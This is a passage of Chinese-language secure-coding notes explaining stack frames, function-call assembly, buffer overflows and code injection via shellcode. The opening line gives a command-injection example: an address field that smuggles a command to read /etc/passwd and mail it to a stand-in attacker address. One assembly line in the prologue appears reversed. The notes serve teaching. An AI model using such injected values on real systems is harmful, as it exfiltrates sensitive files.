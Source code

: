                 1. 令`addr = "bogus@addr.com; cat /etc/passwd  | mail some@badguy.net"`，风险出现（命令注入）

## 程序栈
* 栈存储以下信息：调用函数的返回地址、函数参数、局部 (临时）变量
* 栈修改：在函数调用期间、函数初始化期间、从子例程返回时
	```text
                              内存低端地址
	b() {...}                  b()栈帧     ↑
	a() {                        |
	  b();                     a()栈帧
	}                            |
	main() {                     |
	  a();                    main()栈帧
	}                         内存高端地址
	```
* 子例程创建：参数由后往前压入(比如`func(4,2)`先压入2再压入4)，把返回地址压入栈并跳到那个地址
	```asm title="void function(int arg1, int arg2) 的调用"
	push ebp    ;存储帧指针
	mov esp,ebp ;子例程的帧指针被设置为当前栈指针
	sub esp,44h ;为局部变量分配空间
	;return后
	mov esp,ebp ;恢复栈指针
	pop ebp     ;恢复帧指针
	ret         ;将返回地址从栈弹出，并把控制移交给那个位置
	```

## 字符串漏洞
* 栈（帧）粉碎
	- 帧指由函数调用引发的压入栈的数据。
	- 当缓冲区溢出覆写分配给执行栈内存中的数据时，就会导致栈粉碎
	- 成功的利用这个漏洞能够覆写栈返回地址，从而在目标机器中执行任意代码

### 缓冲区溢出
* 向为某特定数据结构分配的内存空间边界之外写入数据（边界检查不认真）
	- 修改变量
	- 修改数据指针
	- 修改函数指针
	- 修改栈返回地址

### 代码注入
- 攻击创键恶意参数。函数返回时，控制被转移至恶意代码
	* 恶意参数的特征
		1. 必须被漏洞程序作为合法输入接受。
		2. 参数，以及其他可控输入必定导致了漏洞代码路径的执行。
		3. 在控制权转移到恶意代码之前，参数不能导致程序非正常终止。
	* 恶意参数
		- 目的：控制权转移给恶意代码
			1. 可能包含在恶意参数(如本实例)中
			2. 可能在一个有效的输入操作期间注入恶意代码
			3. 恶意代码可以执行以其他任何形式编程所能执行的功能，不过它们通常只是简单地在受害机器上开一个远程
		- 被注入的代码通常叫做shell代码
